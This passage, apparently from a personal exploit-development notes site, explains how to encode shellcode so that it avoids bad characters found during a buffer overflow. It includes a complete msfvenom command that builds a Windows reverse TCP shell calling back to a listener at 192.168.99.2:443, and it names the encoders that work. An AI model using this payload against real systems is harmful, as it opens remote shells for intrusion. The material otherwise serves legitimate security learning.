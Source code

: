 ### Encoding Shellcode

Once all the bad characters are identified, we need to ensure that our shellcode that we send to the vulnerable program does not contain them. When generating shellcode with `msfvenom`, we can give it a list of bad characters by specifying the `-b` flag and those characters will be encoded / replaced by others. In my case, I'd invoke `msfvenom` with `-b 0xa`:

```csharp
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.99.2 LPORT=443 -f python -b 0x0a
```

Below shows how `msfvenom` fails a couple of times to encode the `0x0a` byte when using `shikata ga nai` encoder, but succeeds eventually when using the `call4 dword xor`. Assuming `0x0a` is the only bad character, the shellcode is now bad character-free and ready to use:

![Shellcode's bad characters getting encoded](<../../../.gitbook/assets/image (815).png>)

My notes about writing a custom shellcode encoders and decoders:

{% content-ref url="../writing-custom-shellcode-encoders-and-decoders.md" %}
[writing-custom-shellcode-encoders-and-decoders.md](../writing-custom-shellcode-encoders-and-decoders.md)
{% endcontent-ref %}

Could also be interested in:

{% content-ref url="../finding-kernel32-base-and-function-addresses-in-shellcode.md" %}
[finding-kernel32-base-and-function-addresses-in-shellcode.md](../finding-kernel32-base-and-function-addresses-in-shellcode.md)
{% endcontent-ref %}

## References

{% embed url="https://en.wikipedia.org/wiki/Buffer_overflow" %}
@spotheplanet
